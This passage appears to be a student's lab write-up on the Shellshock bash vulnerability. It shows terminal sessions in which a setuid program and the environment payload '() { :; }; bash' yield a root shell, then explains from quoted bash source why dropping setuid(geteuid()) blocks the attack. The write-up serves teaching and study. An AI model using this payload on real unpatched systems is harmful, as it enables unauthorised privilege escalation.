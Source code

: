 Now we hack it.
```sh
seed@ubuntu:~$ sudo su
root@ubuntu:/home/seed# gcc -o shock shock.c 
root@ubuntu:/home/seed# chmod u+s shock
root@ubuntu:/home/seed# ls -al shock
-rwsr-xr-x 1 root root 7238 Aug  9 19:35 shock
root@ubuntu:/home/seed# exit
exit
seed@ubuntu:~$ export foo='() { :; }; bash'
[08seed@ubuntu:~$ ./shock 
root@ubuntu:/home/seed# 
```

(b) Now, remove the `setuid(geteuid())` statement from the above program, and repeat your attack. Can you gain the root privilege? Please show us your experiment results.
```sh
root@ubuntu:/home/seed# ./shock_1 
total 75228
drwxr-xr-x  4 seed seed     4096 Aug  9 05:35 Desktop
drwxr-xr-x  3 seed seed     4096 Dec  9  2015 Documents
drwxr-xr-x  2 seed seed     4096 Aug  9 04:40 Downloads
drwxrwxr-x  6 seed seed     4096 Sep 16  2014 elggData
-rw-r--r--  1 seed seed     8445 Aug 13  2013 examples.desktop
```

In our experiment, when that line is removed, the attack fails (with that line, the attack is successful). In other words, if the real user id and the effective user id are the same, the function defined in the environment variable is evaluated, and thus the Shellshock vulnerability will be exploited. However, if the real user id and the effective user id are not the same, the function defined in the environment variable is not evaluated at all. This is verified from the bash source code (variables.c, between Lines 308 to 369).

```c
/* Initialize the shell variables from the current environment.
   If PRIVMODE is nonzero, don't import functions from ENV or
   parse $SHELLOPTS. */
void
initialize_shell_variables (env, privmode)
     char **env;
     int privmode;
{
  char *name, *string, *temp_string;
  int c, char_index, string_index, string_length;
  SHELL_VAR *temp_var;

  create_variable_tables ();

  for (string_index = 0; string = env[string_index++]; )
    {

      char_index = 0;
      name = string;
      while ((c = *string++) && c != '=')
  ;
      if (string[-1] == '=')
  char_index = string - name - 1;

      /* If there are weird things in the environment, like `=xxx' or a
   string without an `=', just skip them. */
      if (char_index == 0)
  continue;

      /* ASSERT(name[char_index] == '=') */
      name[char_index] = '\0';
      /* Now, name = env variable name, string = env variable value, and
```